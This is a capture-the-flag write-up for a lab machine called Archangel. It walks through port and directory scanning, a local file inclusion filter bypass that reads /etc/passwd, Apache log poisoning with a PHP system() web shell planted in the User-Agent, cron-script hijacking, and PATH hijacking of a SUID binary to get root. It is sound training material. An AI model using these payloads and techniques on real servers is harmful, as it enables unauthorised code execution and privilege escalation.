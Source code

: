 # Archangel

## Enumeration

### NMAP

The first step to understanding what we are attacking is to determine what ports the target has open and see what service we can find.  

Command:

```bash
nmap -A -p- -oN nmap/all_port_aggressive $TARGET
```

Results:

```bash
Nmap scan report for 10.10.227.48
Host is up (0.082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   18.25 ms 10.6.0.1
2   ... 3
4   82.34 ms 10.10.227.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 288.32 seconds
```

### Website (Manual)

Not everything about enumeration can be automated, so we should look at the site being hosted by the target and see if we can discover any more information. One thing that stands out almost immediately is the domain mentioned in the `Send us a mail:` prompt at the top of the page. We can add this to `/etc/hosts` to see if there is virtual hosting being done on the target. If there is, then adding this to the `/etc/hosts` file and navigating to `http://mafialive.thm` will bring us to a different site.

![WaveFireSite](../media/pictures/archangel_wavefire_site.png)

When we navigate to `mafialive.thm` we are greeted with a basic HTML page that tells us it is under development and gives us a flag.

![MafialiveMain](../media/pictures/archangel_underdev_main.png)

Now we can begin to enumerate this site for hidden directories.

Command:

```bash
gobuster dir -u http://mafialive.thm -w <wordlist> -t 50 -x php -o mafialive_main
```

Output:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/12/16 20:05:53 Starting gobuster in directory enumeration mode
===============================================================
/test.php             (Status: 200) [Size: 286]
/server-status        (Status: 403) [Size: 278]
                                               
===============================================================
2022/12/16 20:06:52 Finished
===============================================================
```

## Local File Inclusion (LFI)

We have discovered a `test.php` page and nothing else. Taking a look at this page, there is a simple button on it that displays a phrase when we click it. Looking at the URL,  however, discloses a parameter `view` whose value is a filepath.

![MafialiveTest1](../media/pictures/archangel_underdev_test1.png)

Let's see if we can get the source for the `test.php` page by replacing `mrrobot.php` with `test.php`. A basic replace didn't work, so we can try using a PHP filter to convert it to base64 and smuggle it out. By replacing `/var/www/html/development_testing/mrrobot.php` with `php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php` we can get the base64 encoded source code returned to us. 

Source:

```php
<?php
//FLAG: <REDACTED FOR WRITEUP>
function containsStr($str, $substr) {
	return strpos($str, $substr) !== false;
}
if(isset($_GET["view"])){
	if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
		include $_GET['view'];
	}else{
		echo 'Sorry, Thats not allowed';
	}
}
?>
```

The part we are intersted in is the `<?php ... ?>` piece where the hidden PHP code is written. This shows us a few interesting things we can use to our advantage: 1) `/var/www/html/development_testing` must be in the `view` parameter and 2) the path cannot contain `../..`. The simple filter imposed by the code is easy to get around by adding an additional `/` to `../..`, turning it into `..//..`. Next we can perform a path traversal to any location the user running the website has access to by walking up the directory tree starting at `/var/www/html/development_testing` using `..//..`. We can test this to make sure our theory is correct by targeting `?view=/var/www/html/development_testing/..//..//..//..//..//..//../etc/passwd`.

![MafialiveTestLFIConfirm](../media/pictures/archangel_underdev_test2.png)

When we attempt the LFI attack, we successfully get back the `/etc/passwd` file. This confirms our theory. 


## Remote Code Execution (RCE)

Reading file content is good, but executing arbitraty commands is better. How, then, can we achieve our objective? The answer: `Log Poisoning`. Since we can read local files, we can read the server's log file. We also know that this site is written in PHP, meaning we may be able to inject a command into the log and have the server execute it for us. Webserver logs generally log the IP address of the requesting machine, the path, response code, user-agent, and time. Out of these, we have control over the path and user-agent. We are using the path to read files, meaning the user-agent is what we will poison the log with. 

By injecting PHP into the `User-Agent` header, we can add a URL parameter to the site. This URL parameter is where we will add the command we want to run. Let's assume we want to add a new parameter `c` using log poisoning via the `User-Agent`.  To achieve this, we will replace the existing `User-Agent` with the following:

```php
<?php system($_GET['c']); ?>
```

When the server gets a request with the above payload as the `User-Agent`, it will evaluate it and execute the PHP code. After this parameter is injected, we can make a request to the server that looks like:

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/../../../../../var/log/apache2/access.log&c=cat /etc/passwd
```

Now when you go back and check the log, the contents of `/etc/passwd` should be in the location of that request's `User-Agent`.

We only have to poison the log in one place, one time, and every time we enter that URL parameter, the poisoned location will be updated. 

*Note: To manipulate the header information (where the User-Agent is stored), you will need a tool like BurpSuite or to send the request using Python, PHP, Go, etc.*

## Privilege Escalation (Horizontal)

Once we have uploaded a reverse shell using log poisoning and gotten a foothold on the target machine, we can begin to escalate our privileges. First, we look in the `/home` directory to see what users there are and if we are allowed to access any of the home directories. In this case there is one user `Archangel` and we are allowed to view his home directory and discover a `user.txt` file containing a flag. 

Getting that flag was good, but we don't really have much leverage on this machine as the current user (`www-data`).  Running the find command for SUID binaries and the GETCAP command for capabilities does not turn up anything we can use to abuse the machine.  Looking in the crontab, however, shows us that `Archangel` is running a script every minute.

![crontab](../media/pictures/archangel_crontab.png)

When we take a look at the file referenced, we notice we have write permissions, meaning we can insert a reverse shell or our own script to gain a shell as `Archangel`.  All we have to do is overwrite the existing `/opt/helloworld.sh` file and wait for the cron job to run, then we will become `Archangel`. After we gain the shell we can navigate back to `/home/archangel` and look in `secret` to find `user2.txt` which contain's a flag. 

## Privilege Escalation (Root)

After grabbing the flag from `user2.txt` we can see there is a file called `backup` in the same directory, owned by root, with the SUID bit set. Running `file` on it shows it is an `ELF` binary. If we run `strings` on it we can find something interesting: it is executing a `cp` with a relative path to the binary.

![backupStrings](../media/pictures/archangel_backup_strings.png)

The use of this relative path allows us to point the binary to a `cp` binary created by us, allowing us to execute commands as root.  We can create a basic shell script like this:

```bash
echo "#!/bin/bash\n/bin/bash" > cp
chmod +x cp
```

Next we have to alter our `PATH` to lookin `/home/archangel/secret` for our malicious `cp` file. 

```bash
export PATH=/home/archangel/secret:$PATH
```

After that, we can run the `backup` binary and drop into a root shell.  Once we have a root shell, we can navigate to `/root` and read the flag from `root.txt`. 